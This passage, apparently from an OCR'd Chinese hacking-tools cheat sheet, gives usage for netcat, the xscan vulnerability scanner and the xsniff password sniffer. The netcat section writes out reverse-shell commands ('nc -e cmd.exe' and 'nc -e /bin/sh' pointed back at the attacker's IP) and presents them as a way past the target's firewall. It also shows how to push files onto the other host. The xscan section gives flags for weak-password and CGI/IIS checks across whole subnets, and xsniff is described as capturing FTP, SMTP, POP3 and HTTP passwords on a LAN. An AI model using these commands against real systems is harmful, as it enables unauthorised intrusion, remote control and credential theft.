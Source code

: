 　　高级用法：
　　nc -L -p 80 作为蜜罐用1：开启并不停地监听80端口，直到CTR+C为止
　　nc -L -p 80 > c:log.txt 作为蜜罐用2：开启并不停地监听80端口，直到CTR+C,同时把结果输出到c:log.txt
　　nc -L -p 80 < c:honeyport.txt 作为蜜罐用3-1：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中，亦可起到传送文件作用
　　type.exe c:honeyport | nc -L -p 80 作为蜜罐用3-2：开启并不停地监听80端口，直到CTR+C,并把c:honeyport.txt中内容送入管道中,亦可起到传送文件作用
　　本机上用：nc -l -p 本机端口
　　在对方主机上用：nc -e cmd.exe 本机IP -p 本机端口 *win2K
　　nc -e /bin/sh 本机IP -p 本机端口 *linux,unix 反向连接突破对方主机的防火墙
　　本机上用：nc -d -l -p 本机端口 < 要传送的文件路径及名称
　　在对方主机上用：nc -vv 本机IP 本机端口 > 存放文件的路径及名称 传送文件到对方主机
　　备 注：
　　| 管道命令
　　< 或 > 重定向命令。“<”，例如：tlntadmn < test.txt 指把test.txt的内容赋值给tlntadmn命令
　　@ 表示执行@后面的命令，但不会显示出来（后台执行）；例：@dir c:winnt >> d:log.txt 意思是：后台执行dir，并把结果存在d:log.txt中
　　>与>>的区别 ">"指：覆盖；">>"指：保存到(添加到）。
　　如：@dir c:winnt >> d:log.txt和@dir c:winnt > d:log.txt二个命令分别执行二次比较看：用>>的则是把二次的结果都保存了，而用：>则只有一次的结果，是因为第二次的结果把第一次的覆盖了。
　　八：
　　扫描工具：xscan.exe
　　基本格式
　　xscan -host <起始IP>[-<终止IP>] <检测项目> [其他选项] 扫锚"起始IP到终止IP"段的所有主机信息
　　xscan -file <主机列表文件名> <检测项目> [其他选项] 扫锚"主机IP列表文件名"中的所有主机信息
　　检测项目
　　-active 检测主机是否存活
　　-os 检测远程操作系统类型（通过NETBIOS和SNMP协议）
　　-port 检测常用服务的端口状态
　　-ftp 检测FTP弱口令
　　-pub 检测FTP服务匿名用户写权限
　　-pop3 检测POP3-Server弱口令
　　-smtp 检测SMTP-Server漏洞
　　-sql 检测SQL-Server弱口令
　　-smb 检测NT-Server弱口令
　　-iis 检测IIS编码/解码漏洞
　　-cgi 检测CGI漏洞
　　-nasl 加载Nessus攻击脚本
　　-all 检测以上所有项目
　　其它选项
　　-i 适配器编号 设置网络适配器, <适配器编号>可通过"-l"参数获取
　　-l 显示所有网络适配器
　　-v 显示详细扫描进度
　　-p 跳过没有响应的主机
　　-o 跳过没有检测到开放端口的主机
　　-t 并发线程数量,并发主机数量 指定最大并发线程数量和并发主机数量, 默认数量为100,10
　　-log 文件名 指定扫描报告文件名 (后缀为：TXT或HTML格式的文件)
　　用法示例
　　xscan -host 192.168.1.1-192.168.255.255 -all -active -p　检测192.168.1.1-192.168.255.255网段内主机的所有漏洞，跳过无响应的主机
　　xscan -host 192.168.1.1-192.168.255.255 -port -smb -t 150 -o 检测192.168.1.1-192.168.255.255网段内主机的标准端口状态，NT弱口令用户，最大并发线程数量为150，跳过没有检测到开放端口的主机
　　xscan -file hostlist.txt -port -cgi -t 200,5 -v -o 检测“hostlist.txt”文件中列出的所有主机的标准端口状态，CGI漏洞，最大并发线程数量为200，同一时刻最多检测5台主机，显示详细检测进度，跳过没有检测到开放端口的主机
　　九：
　　命令行方式嗅探器: xsniff.exe
　　可捕获局域网内FTP/SMTP/POP3/HTTP协议密码
　　参数说明
　　-tcp 输出TCP数据报
　　-udp 输出UDP数据报
　　-icmp 输出ICMP数据报
　　-pass 过滤密码信息
　　-hide 后台运行
　　-host 解析主机名
　　-addr IP地址 过滤IP地址